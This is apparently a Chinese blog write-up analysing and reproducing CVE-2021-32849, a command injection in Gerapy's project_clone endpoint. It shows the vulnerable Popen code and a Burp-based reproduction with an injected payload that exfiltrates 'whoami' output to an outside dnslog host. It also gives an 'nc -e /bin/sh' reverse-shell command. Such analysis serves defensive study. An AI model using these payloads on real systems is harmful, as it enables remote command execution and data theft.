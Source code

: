 # CVE-2021-32849 Gerapy RCE 简单分析


# 简介  

Gerapy是一款基于Scrapy、Scrapyd、Django和Vue.js的分布式爬虫管理框架。

# 漏洞描述  

该漏洞源于程序没有正确清理通过project_clone端点传递给Popen的输入。攻击者可利用该漏洞执行任意命令。

# 影响版本  

```
Gerapy <= 0.9.7
```

# 环境搭建  

执行以下命令进行安装gerapy
```
pip install gerapy==0.9.7
pip install scrapyd
```

可以通过`gerapy`检测安装是否成功

![1.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/028945a2-a664-0fb5-d831-654cdfb5ef6b.png)

先运行`scrapyd`

![2.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/d86af929-34c7-e3ae-8067-92d56fd42eca.png)

然后通过以下命令设置gerapy的相关参数
```
gerapy init  ##初始化
cd gerapy   ##进入工作目录
gerapy migrate ##自动创建数据库
gerapy createsuperuser   ##设置管理员账号密码
gerapy runserver 0.0.0.0：8000   ##开启服务
```

设置完成后浏览器访问

![3.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/683be8fa-74e2-d9ff-baf9-94c2f1c508b3.png)

# 漏洞分析

该功能具体实现代码如下：
```
@api_view(['POST'])
@permission_classes([IsAuthenticated])
def project_clone(request):
    """
    clone project from github
    :param request: request object
    :return: json
    """
    if request.method == 'POST':
        data = json.loads(request.body)
        address = data.get('address')
        if not address.startswith('http'):
            return JsonResponse({'status': False})
        address = address + '.git' if not address.endswith('.git') else address
        cmd = 'git clone {address} {target}'.format(address=address, target=join(PROJECTS_FOLDER, Path(address).stem))
        logger.debug('clone cmd %s', mcd)
        p = Popen(cmd, shell=True, stdin=PIPE, stdout=PIPE, stderr=PIPE)
        stdout, stderr = bytes2str(p.stdout.read()), bytes2str(p.stderr.read())
        logger.debug('clone run result %s', stdout)
        if stderr: logger.error(stderr)
        return JsonResponse({'status': True}) if not stderr else JsonResponse({'status': False})
```

根据代码可以看出传入的参数`address`在到`popen`中去执行shell命令为止，中间都没有进行任何的过滤，导致命令注入。

# 漏洞复现

登入后台后，如图所示依次点击，项目管理>创建>克隆

![4.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/bdf668fc-53d4-17bc-a5ca-55e20a653734.png)

然后随意填写通过burp进行抓包
然后在后面拼接上以下命令

```
;curl `whoami`.thh0lg.dnslog.cn
```

![5.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/a166b01e-a96d-9358-ede4-64b1e52bbfb7.png)

查看结果,命令结果成功被外带出来

![6.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/b5019130-7707-f8b3-2588-0514a53a086e.png)

接下来进行尝试反弹shell
这里使用的是`nc -e /bin/sh IP 5555`命令，因为在搭建环境中没有/bin/bash，根据环境不同，使用不同的反弹命令

![7.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/1ef19f38-2f6d-0a69-59a9-04ff2e6a145f.png)

![8.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/d7b7cdaf-ca7d-e60c-734a-56d0c7aef4f1.png)

